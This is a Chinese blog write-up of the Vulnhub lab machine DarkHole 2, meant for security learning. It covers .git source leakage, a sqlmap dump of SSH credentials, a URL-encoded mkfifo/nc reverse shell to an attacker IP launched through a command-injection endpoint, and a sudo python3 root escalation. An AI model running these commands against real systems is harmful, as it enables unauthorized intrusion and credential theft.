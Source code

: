```yaml
---
layout: post
title: DarkHole 2
subtitle: DarkHole 2
date: 2025-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: off
---
```


ip扫描发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/gfbKzP.png)

扫描端口

![image.png](https://img.ghostliner.top/92tYeS.png)

目录扫描，发现 `.git` 目录，使用 `GitHack` 下载目录

```shell
# 下载GitHack
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
# 执行
python2 GitHack.py http://192.168.163.134/.git/
```

进入到 `.git` 目录查看日志

```shell
git log
```

发现有三个版本，第二版本在`login.php`添加了默认凭证

![image.png](https://img.ghostliner.top/3Kf9f3.png)

回退版本

```shell
git reset --hard HEAD^
# or
git reset --hard a4d900a8d85e8938d3601f3cef113ee293028e10
```

查看 `login.php` 发现用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/jPyGeI.png)

使用用户名密码登录成功，登陆后地址： <http://192.168.163.134/dashboard.php?id=1>

查看 `dashboard.php` , 其中 `\155`为8进制，`\x6f`为16进制

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

解码 query，测试mobile参数未发现注入

```sql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

获取数据库
![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取ssh表中数据

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

用户名：`jehad` 密码：`fool`

ssh登录成功，查看home目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

发现flag文件

![image.png](https://img.ghostliner.top/6eDntV.png)

获取到数据库用户名密码

![image.png](https://img.ghostliner.top/QtpOyP.png)

`sudo -l` 提权失败
![image.png](https://img.ghostliner.top/pbtTKM.png)

```shell
cat /etc/crontab
```

发现losy定时任务：在本地开放9999端口作为站点

![image.png](https://img.ghostliner.top/ZKmacp.png)

查看 `/opt/web` 目录下文件，可知需要构造get请求，参数为 `cmd`

![image.png](https://img.ghostliner.top/kXEBsn.png)

测试参数

![image.png](https://img.ghostliner.top/tX4umD.png)

尝试反弹shell

<mark>使用nc -e或nc -c都会报错</mark>

```shell
# mkfifo /tmp/f
curl http://127.0.0.1:9999?cmd=mkfifo%20%2Ftmp%2Ff
# echo "cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f" >/tmp/tt
curl http://127.0.0.1:9999?cmd=echo%20%22cat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20-nv%20192.168.163.132%204444%20%3E%2Ftmp%2Ff%22%20%3E%2Ftmp%2Ftt
# chmod +x /tmp/tt
curl http://127.0.0.1:9999?cmd=chmod%20%2Bx%20%2Ftmp%2Ftt
# /bin/bash /tmp/tt
curl http://127.0.0.1:9999?cmd=%2Fbin%2Fbash%20%2Ftmp%2Ftt
```

反弹成功切换为用户 `losy`

![image.png](https://img.ghostliner.top/bfO3pi.png)

查看 `.bash_history` 获取到losy用户密码：`gang`

![image.png](https://img.ghostliner.top/3VDxKW.png)

SSH登录，`sudo -l` 查看是否能提权

![image.png](https://img.ghostliner.top/p1rd3x.png)

使用python3提权

```shell
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

root提权成功

![image.png](https://img.ghostliner.top/8Dr4PW.png)

获取到最终flag文件
![image.png](https://img.ghostliner.top/ILL2cW.png)
